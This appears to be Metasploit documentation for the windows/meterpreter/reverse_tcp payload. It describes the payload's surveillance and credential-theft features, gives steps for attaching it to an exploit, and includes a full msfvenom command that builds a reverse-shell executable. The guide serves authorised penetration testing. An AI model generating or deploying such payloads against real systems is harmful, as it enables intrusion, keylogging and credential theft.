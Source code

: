 windows/meterpreter/reverse_tcp is one of the most powerful features the Metasploit Framework has
to offer, and there are so many things you can do with it.

It allows you to remotely control the file system, sniff, keylog, hashdump, perform network pivoting,
control the webcam and microphone, etc. It has the best support for post modules, and you can
load extensions, such as mimikatz and python interpreter, etc.

windows/meterpreter/reverse_tcp is also the default payload for all Windows exploit targets.

## Vulnerable Application

This Meterpreter payload is suitable for the following environments:

* Windows x64
* Windows x86

## Verification Steps

windows/meterpreter/reverse_tcp is typically used in two different ways.

First, it is typically used as a payload for an exploit. Here's how to do that:

1. In msfconsole, select an exploit module
2. Configure the options for that exploit.
3. Do: ```set payload windows/meterpreter/reverse_tcp```
4. Set the ```LHOST``` option, which is the IP that the payload should connect to.
5. Do: ```exploit```. If the exploit is successful, it should execute that payload.

Another way to use windows/meterpreter/reverse_tcp is to generate it as an executable. Normally,
you would want to do it with msfvenom. If you are old school, you have probably also heard of
msfpayload and msfencode. msfvenom is a replacement of those.

The following is a basic example of using msfvenom to generate windows/meterpreter/reverse_tcp
as an executable:

```
./msfvenom -p windows/meterpreter/reverse_tcp LHOST=[IP] LPORT=4444 -f exe -o /tmp/payload.exe
```

## Important Basic Commands

**pwd command**

The ```pwd``` command allows you to see the current directory you're in on the remote target.
Example:

```
meterpreter > pwd
C:\Users\user\Desktop
```

**cd command**

The ```cd``` command allows you to change directories. Example:

```
meterpreter > cd C:\\
meterpreter > pwd
C:\
```
